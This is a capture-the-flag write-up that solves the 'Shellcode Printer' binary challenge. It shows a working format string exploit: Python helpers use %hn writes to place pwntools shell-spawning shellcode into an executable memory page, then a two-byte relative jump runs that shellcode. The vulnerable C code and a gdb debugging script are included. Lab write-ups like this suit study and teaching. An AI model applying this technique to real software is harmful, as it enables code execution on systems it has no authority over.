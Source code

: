 # Shellcode Printer
## Description of the challenge

The challenge at the start map 1 page of memory with read, write and execution permissions using mmap
```c
ptr = mmap(0, len, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_FILE|MAP_ANONYMOUS, -1, 0);
```
Then the challenge open a stream on `/dev/null`
```c
stream = fopen("/dev/null", "w");
```
Now the challenge write `\xC3` in ptr and loop incrementing `ptr`. 
```c
*ptr = 0xC3;
for ( ptr -= 2; ; ptr += 2 ){
    memset(buff, 0, 16);
    printf("Enter a format string: ");
    if ( !fgets(buff, 16, stdin) )
    {
      perror("fgets");
      goto LABEL_11; // Handle the error and return 1
    }
    buff[strcspn(buff, "\n")] = 0;
    if ( !buff[0] )
      break;
    fprintf(stream, buff);
}
```
In the loop is taken the user input via `fgets(buff, 16, stdin)`, where `buff` is a 16 bytes buffer, and is used to execute `fprintf(stream, buff)`. The loop end if the user input begin with a null byte, then the program do a call at the address pointed by the `ptr` variable
```c
return ((__int64 (*)(void))ptr)();
```

## Debugging
There is a format string vulnerability, but it can't be used to leak becouse the output of the format string is redirected to /dev/null. To debug the challenge more easily I used the following gdbscript
```gdb
set $fprintf_call=$base_address+0x000000000000145B
          b *($fprintf_call)
          commands
               set $rdi=stdout
               c
               end
```
It intercept the call to fprintf and replace the stream with **stdout**. With this little treak we can see the output of the format string (of course it will not work on remote).

## Writing shellcode
To obtain RCE we want to exploit the memory area mapped at the beginning of the execution, which has write and execution permissions. To write in that region we can use the value of ptr written in the stack which we can access through the format string as the 6th parameter.
```py
def write_bytes(content):
    if isinstance(content, bytes):
        content = int.from_bytes(content, "little")
    payload = f"%{content}c%6$hn".encode()
    p.recvuntil(b"Enter a format string: ")
    p.sendline(payload)
```
This function write 2 bytes in the memory pointed by `ptr`. Normally we want to write 2 bytes at a time becouse each iteration `ptr` got incremented by two. I also written a function to write a qword 2 bytes at a time to improve code readability (it is easier to work on qword)
```py
def write_qword(payload):
    if isinstance(payload, bytes):
        payload = int.from_bytes(payload, "little")
    if payload == 0:
        return
    write_bytes( payload & 0xffff )
    payload = payload >> 16
    write_qword(payload)
``` 

Using this functions it's easy to write a shellcode in the mapped memory region. Since we have a lot of space I used the pwntools shellcode
```py
shellcode = asm(shellcraft.sh())
    for i in range(0, len(shellcode), 8):
        write_qword(shellcode[i:i+8])
```

## Executing shellcode
Executing the shellcode is not trivial. That's becouse the execute the call after the loop we have to send an input which begin with a null byte, so the `ptr` variable will be incremented and the call will jump to the end of our shellcode. To execute the whole shellcode I used a relative jump instruction, which happen to be exactly 2 bytes long
```asm
    jmp $-0x30
```
which is represented by the bytes `\xeb\xce`. Now we have to send a null byte to exit the loop and execute our shellcode to get a shell.